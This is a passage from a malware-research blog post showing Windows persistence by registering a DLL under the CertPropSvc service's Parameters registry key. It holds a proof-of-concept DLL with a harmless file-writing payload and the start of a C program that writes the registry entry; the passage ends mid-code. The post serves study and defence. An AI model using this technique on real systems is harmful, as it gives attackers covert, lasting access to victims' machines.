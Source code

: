 So we just change it to our malicious DLL and wait until the service restarts (or trigger it manually).     

First of all create our "malicious" DLL `meow.cpp`:    

```cpp
/*
* meow.cpp
* "malicious" DLL for persistence
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2025/09/14/malware-pers-28.html
*/
#include <windows.h>
#include <stdio.h>

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  FILE* fp = fopen("meow-hack.txt", "a+");
  if (fp) {
    fprintf(fp, "Meow-meow!\n");
    fclose(fp);
  }
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    runMe();
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

As you can see, it's something simple as usual, write `Meow-meow\n` string to file.     

Then we need, a minimal C program that writes our DLL path into the registry `pers.c`:    

```cpp
/*
 * pers.c
 * peristence via CertPropSvc
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2025/09/14/malware-pers-28.html
*/
#include <windows.h>
#include <stdio.h>
 
int main() {
  HKEY hKey;
  const char* regPath = "SYSTEM\\CurrentControlSet\\Services\\CertPropSvc\\Parameters";
  const char* dllPath = "C:\\Windows\\System32\\meow.dll";
 
  // open or create the Parameters key
  LONG result = RegCreateKeyExA(
    HKEY_LOCAL_MACHINE,
    regPath,
    0, NULL, 0,
```